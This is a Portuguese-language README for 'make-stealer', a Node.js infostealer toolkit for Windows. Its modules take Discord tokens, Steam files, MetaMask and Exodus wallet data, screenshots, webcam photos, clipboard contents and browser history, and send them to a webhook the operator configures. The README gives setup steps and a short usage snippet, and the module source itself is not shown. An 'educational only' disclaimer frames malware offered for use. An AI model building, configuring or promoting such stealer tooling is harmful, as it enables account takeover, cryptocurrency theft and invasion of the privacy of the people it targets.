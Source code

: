 # Stealers Modules 

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Node.js](https://img.shields.io/badge/Node.js-16+-green.svg)](https://nodejs.org/)
[![Platform](https://img.shields.io/badge/Platform-Windows-blue.svg)](https://www.microsoft.com/windows)

> **⚠️ DISCLAIMER IMPORTANTE**  
> Este repositório é **APENAS** para fins educacionais e de pesquisa em segurança.  
> O uso deste código para atividades maliciosas é **PROIBIDO** e de responsabilidade exclusiva do usuário.

---

## 📋 Sobre

Diversos módulos para implementação em Stealers. Desenvolvido para fins educacionais em segurança da informação e pentesting.

---

## 🚀 Features

- **Discord**: Coleta tokens e informações de autenticação
- **Steam**: Backup dos arquivos principais da Steam
- **MetaMask & Exodus**: Cópia de dados de carteiras cripto
- **Screenshot**: Captura de tela com envio para webhook
- **Webcam**: Captura de foto da webcam
- **Clipboard**: Captura todos os novos textos copiados pelo usuario e os antigos (caso tenha o win + v ativo)
- **Browser History**: Coleta histórico dos navegadores

---

## 📁 Estrutura

```
make-stealer/
├── index.js             # Arquivo principal
├── package.json         # Dependências
├── readme.MD            # Documentação
└── modulos/             # Módulos do sistema
    ├── clipboard.js     # Coleta clipboard
    ├── browser.js       # Coleta histórico dos navegadores
    ├── discord.js       # Coleta tokens Discord
    ├── steam.js         # Backup Steam
    ├── metamask.js      # Backup MetaMask
    ├── exodus.js        # Backup Exodus
    ├── screenshot.js    # Captura de tela
    └── webcam.js        # Captura webcam
```

---

## ⚙️ Requisitos

- **Sistema**: Windows 10/11
- **Node.js**: Versão 16 ou superior
- **NPM**: Gerenciador de pacotes

---

## 🛠️ Instalação

1. **Clone o repositório**:
   ```bash
   git clone https://github.com/npmstealer/make-stealer.git
   cd make-stealer
   ```

2. **Instale as dependências**:
   ```bash
   npm install
   ```

3. **Configure a webhook**:
   - edite o arquivo `index.js`
   - Substitua o 'webhook here' pela sua webhook

---

## 📦 Dependências

- `axios`: Requisições HTTP
- `screenshot-desktop`: Captura de tela
- `form-data`: Upload de arquivos

---

## 🚀 Como Usar

### Uso Básico
```bash
npm start
# ou
node index.js
```

### Uso dos módulos
```javascript
const { discordtokens } = require('./modulos/discord')
const { screenshot } = require('./modulos/screenshot')

discordtokens()

screenshot('print.png', 'webhook here')
```

---

## ⚖️ Responsabilidade Legal

- Este software é fornecido "como está"
- O uso é de responsabilidade exclusiva do usuário
- Respeite sempre as leis locais de privacidade e segurança
- Use apenas em ambientes autorizados e para fins educacionais

---

## 👤 Créditos

- **Desenvolvedor**: npmstealer
- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Versão**: 1.0.0

---

## 📞 Suporte

- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Issues**: Use o GitHub Issues para bugs

---

> **⚠️ Lembre-se**: Use este software de forma responsável e ética. A segurança da informação deve sempre respeitar a privacidade e os direitos dos usuários.





